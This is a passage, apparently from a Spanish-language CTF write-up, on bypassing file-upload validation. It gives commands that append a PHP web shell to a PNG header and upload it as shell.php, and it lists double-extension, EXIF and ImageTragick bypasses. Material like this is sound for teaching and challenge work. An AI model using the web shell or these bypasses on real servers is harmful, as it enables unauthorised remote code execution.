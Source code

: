 Si el servidor descomprime y guarda `shell.php` en un webroot → ejecución.

---

7. **Bypass getimagesize() / image-validators**  
    `getimagesize()` suele validar si estructura mínima existe; los encabezados suficientes bastan. Puedes crear un _minimal_ JPEG (o PNG) y concatenar payload:
    

`# minimal png header + php payload (ejemplo simple) printf '\x89PNG\r\n\x1a\n' > minimal.png # añadir chunk IDHR mínimamente válido o usa un real small.png cat small.png > minimal.png printf '<?php system($_GET["c"]); ?>' >> minimal.png  curl -i -X POST "https://HOST/upload" -F "file=@minimal.png;filename=shell.php;type=image/png"`

---

8. **Si el servidor re-encodes / valida firmemente**  
    Si la app re-encodes el archivo (p. ej. `convert` o `gd`), payloads appended serán eliminados. Entonces prueba **exif** o intenta **RCE via image-processing** (explotar vulnerabilities en convert/imagemagick — _ImageTragick_), o buscar endpoints que sólo validen y después muevan/rename sin procesar.
    

---

### **Notas adicionales (cortas y útiles)**

- **Siempre trabaja con una copia** del archivo de prueba.
    
- Comprueba si la URL de upload es accesible públicamente; si no, el exploit puede fallar.
    
- Si el servidor limpia la extensión, prueba nombre `shell.php.jpg` o `shell.jpg.php` (algunos frameworks toman la parte antes del primer `.`).
    
- Muchas protecciones realmente útiles: `finfo_file()` + comprobar encabezado + re-encode → dificulta la mayoría de estos bypasses.
    
- Si el uploader cambia contenido (re-encode), intenta EXIF o busca endpoints alternativos (`/tmp`, `/preview`, `/avatar`) que no re-encodeen.
    
- No uses reverse shells en sistemas que no te pertenecen (solo en la instancia del reto).
    

---

### **Referencias**

- PayloadsAllTheThings — File upload (bypass & web shells).
    
- OWASP — Unrestricted File Upload.
    
- Artículo: _ImageTragick_ (vulnerabilidades en ImageMagick).
    
- `exiftool` docs — para modificar EXIF.
    
- Guías CTF: “Bypassing file upload filters” (variantes: double extension, content-type spoof, polyglots, EXIF).
### Reto: M1n10n'5_53cr37
